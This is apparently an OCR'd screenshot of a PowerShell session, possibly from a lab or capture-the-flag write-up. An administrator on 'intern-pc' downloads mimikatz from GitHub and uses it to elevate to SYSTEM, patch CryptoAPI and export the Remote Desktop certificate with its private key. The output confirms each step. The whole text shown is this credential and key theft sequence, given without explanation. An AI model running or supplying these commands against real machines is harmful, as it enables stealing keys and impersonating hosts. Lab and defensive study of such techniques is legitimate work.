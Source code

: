 ```
d-r---        3/17/2021   3:13 PM                Searches                                         
d-r---        3/17/2021   3:13 PM                Videos                                           
-a----       11/25/2023   6:01 AM           8192 psh4444.exe                                      


PS C:\Users\Administrator> whoami
intern-pc\administrator
PS C:\Users\Administrator> wget https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip -O mimi.zip
PS C:\Users\Administrator> Expand-Archive .\mimi.zip
PS C:\Users\Administrator> mv mimi/x64/mimikatz.exe .
PS C:\Users\Administrator> cmd /c mimikatz.exe privilege::debug token::elevate crypto::capi "crypto::certificates /systemstore:LOCAL_MACHINE /store:\`"Remote Desktop\`" /export" exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # token::elevate
Token Id  : 0
User name : 
SID name  : NT AUTHORITY\SYSTEM

496	{0;000003e7} 1 D 16529     	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,21p)	Primary
 -> Impersonated !
 * Process Token : {0;0002bbfa} 2 D 25564822  	INTERN-PC\Administrator	S-1-5-21-1966530601-3185510712-10604624-500	(14g,24p)	Primary
 * Thread Token  : {0;000003e7} 1 D 25609341  	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,21p)	Impersonation (Delegation)

mimikatz(commandline) # crypto::capi
Local CryptoAPI RSA CSP patched
Local CryptoAPI DSS CSP patched

mimikatz(commandline) # crypto::certificates /systemstore:LOCAL_MACHINE /store:"Remote Desktop" /export
 * System Store  : 'LOCAL_MACHINE' (0x00020000)
 * Store         : 'Remote Desktop'

 0. INTERN-PC
    Subject  : CN=INTERN-PC
    Issuer   : CN=INTERN-PC
    Serial   : ffb1d93a1df0324cadd5e13f3f9f1b51
    Algorithm: 1.2.840.113549.1.1.1 (RSA)
    Validity : 11/22/2023 9:18:19 PM -> 5/23/2024 9:18:19 PM
    Hash SHA1: a0168513fd57577ecc0204f01441a3bd5401ada7
	Key Container  : TSSecKeySet1
	Provider       : Microsoft Enhanced Cryptographic Provider v1.0
	Provider type  : RSA_FULL (1)
	Type           : AT_KEYEXCHANGE (0x00000001)
	|Provider name : Microsoft Enhanced Cryptographic Provider v1.0
	|Key Container : TSSecKeySet1
	|Unique name   : f686aace6942fb7f7ceb231212eef4a4_c5d2b969-b61a-4159-8f78-6391a1c805db
	|Implementation: CRYPT_IMPL_SOFTWARE ; 
	Algorithm      : CALG_RSA_KEYX
	Key size       : 2048 (0x00000800)
```